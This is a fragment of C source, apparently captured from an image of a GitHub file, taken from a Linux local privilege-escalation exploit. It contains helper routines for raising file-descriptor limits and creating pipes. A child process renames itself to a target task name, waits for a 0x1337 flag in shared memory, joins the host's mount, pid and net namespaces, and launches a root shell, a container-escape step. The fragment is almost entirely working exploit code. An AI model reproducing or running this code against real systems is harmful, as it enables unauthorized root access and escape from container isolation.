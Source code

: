 ```c
		
	lim.rlim_cur = old_lim.rlim_max;
	lim.rlim_max = old_lim.rlim_max;

	if (setrlimit(RLIMIT_NOFILE, &lim) != 0)
    {
		err("`setrlimit()` failed: %s", strerror(errno));
    }

    info("Increased fd limit from %d to %d", old_lim.rlim_cur, lim.rlim_cur);

    return;
}

void create_pipe(void)
{
    if (pipe(g_pipe.fd) == -1)
    {
        err("`pipe()` failed");
    }
}

void release_pipe(void)
{
    close(g_pipe.fd[PIPE_WRITE]);
    close(g_pipe.fd[PIPE_READ]);
}

// Our child waits to be given super powers and then drops into shell
void child_exec(void)
{
    // Change our taskname 
    if (prctl(PR_SET_NAME, TARGET_TASK, NULL, NULL, NULL) != 0)
    {
        err("`prctl()` failed");
    }

    while (1)
    {
        if (*(int *)g_shmem == 0x1337)
        {
            sleep(3);
            info("Child dropping into root shell...");
            if (setns(open("/proc/self/ns/mnt", O_RDONLY), 0) == -1) { err("`setns()`"); }
            if (setns(open("/proc/self/ns/pid", O_RDONLY), 0) == -1) { err("`setns()`"); }
            if (setns(open("/proc/self/ns/net", O_RDONLY), 0) == -1) { err("`setns()`"); }
            char *args[] = {"/bin/sh", NULL, NULL};
            execve(args[0], args, NULL);
        }

        else { sleep(2); }
    }
}

// Set-up environment for exploit
void setup_env(void)
{
    // Make sure a page is a page and we're not on some bullshit machine
    long page_sz = sysconf(_SC_PAGESIZE);
    if (page_sz != 4096L)
    {
        err("Page size was: %ld", page_sz);
    }
```